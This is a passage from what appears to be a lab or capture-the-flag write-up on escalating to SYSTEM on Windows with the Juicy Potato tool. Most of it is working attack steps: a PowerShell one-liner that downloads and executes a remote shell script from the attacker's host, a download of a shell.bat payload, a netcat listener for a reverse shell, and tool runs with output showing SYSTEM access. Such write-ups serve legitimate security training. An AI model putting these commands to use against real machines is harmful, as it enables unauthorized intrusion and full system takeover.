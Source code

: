 ```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.45:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.

```text
(new-object net.webclient).downloadfile('http://10.10.14.45:5555/shell.bat', 'C:\Users\Public\Downloads\shell.bat')
```

Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
PS C:\Users\Public\Downloads> ./jp.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
COM -> recv failed with error: 10038
```

It fails to escalate privileges with the default CLSID. We can get the list of CLSIDs on our system using [this script](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). However, let’s first manually try one of the Windows 10 Pro CLSIDs available on the Juicy Potato [github repo](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro).

![](../images/max/722/1*MaYvCPnT_O6l9Osv6Ivd8Q.png)

Rerun the Juicy Potato executable with the above specific CLSID.

```text
PS C:\Users\Public\Downloads> ./jp.exe -t * -p shell.bat -l 4444 -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
Testing {7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381} 4444
......
[+] authresult 0
{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK
```
